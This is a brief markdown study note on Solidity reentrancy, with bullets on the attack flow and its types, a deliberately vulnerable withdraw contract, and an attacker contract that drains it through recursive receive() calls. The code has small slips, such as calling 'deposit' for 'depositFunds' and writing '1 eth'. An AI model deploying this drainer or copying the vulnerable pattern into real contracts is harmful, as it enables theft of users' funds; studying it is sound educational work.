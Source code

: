 ## Reentrancy.md

- Reentrancy can only occur when a contract calls another contract using a function call or by sending eth.
- If a contract does not call another contract or send eth during an execution, execution control can not be handed over, and as such reentrancy cannot occur.
- Important to note though, is that it is not always explicit when another contract is being called.
- Types: Basic, token-callback, cross-function, cross-contract, read only.
- Flow: Attacker calls contract -> victim contract calls external contract repeatedly -> external contract calls victim contract repeatedly.
- Full cycle flow: Deposit gets placed into vulnerable contract -> Attacker initiates an attack -> Attacker deposits -> Attacker withdraws -> Attacker receive function triggers, running repeatedly.
- 

```
contract ReentrantContract {
  mapping(address => uint256) public userBalance;

  function depositFunds() public payable {
    userBalance[msg.sender] += msg.value;
  }

  function withdrawFunds() public {
    uint256 balance = userBalance[msg.sender];
    (bool success,) = msg.sender.call{value: balance}("");
    
    if (!success) {
      revert();
    }

    userBalance[msg.sender] = 0;
  }
}

contract ReentrancyAttack {
  ReentrantContract vulnerableContract;

  constructor(ReentrantContract _vulnerableContract) {
    vulnerableContract = _vulnerableContract;
  }

  function engage() public payable {
    vulnerableContract.deposit{value: 1 eth}();
    vulnerableContract.withdrawFunds();
  }

  receive() external payable {
    if (address(vulnerableContract).balance >= 1 eth) {
      vulnerableContract.withdrawFunds();
    }
  }
}
``` 
